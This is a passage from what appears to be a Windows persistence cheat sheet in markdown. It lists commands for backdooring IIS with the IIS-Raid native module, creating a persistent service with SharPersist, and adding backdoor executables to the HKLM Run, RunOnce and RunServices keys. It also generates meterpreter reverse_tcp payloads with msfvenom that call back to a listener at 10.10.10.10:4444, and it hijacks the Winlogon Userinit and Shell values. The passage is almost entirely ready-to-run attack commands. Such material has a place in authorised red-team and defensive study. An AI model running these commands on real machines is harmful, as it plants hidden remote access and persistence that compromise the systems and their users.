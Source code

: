 ## Serviceland

### IIS

IIS Raid – Backdooring IIS Using Native Modules

```powershell
$ git clone https://github.com/0x09AL/IIS-Raid
$ python iis_controller.py --url http://192.168.1.11/ --password SIMPLEPASS
C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module Name /image:"%windir%\System32\inetsrv\IIS-Backdoor.dll" /add:true
```

### Windows Service

Using SharPersist

```powershell
SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
```

## Elevated

### Registry HKLM

Similar to HKCU. Create a REG_SZ value in the Run key within HKLM\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Windows\Temp\backdoor.exe
```

Using the command line

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\tmp\backdoor.exe"
```

#### Winlogon Helper DLL

> Run executable during Windows logon

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > evilbinary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f dll > evilbinary.dll

reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, evilbinary.exe" /f
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, evilbinary.exe" /f
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, evilbinary.exe" -Force
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, evilbinary.exe" -Force
```

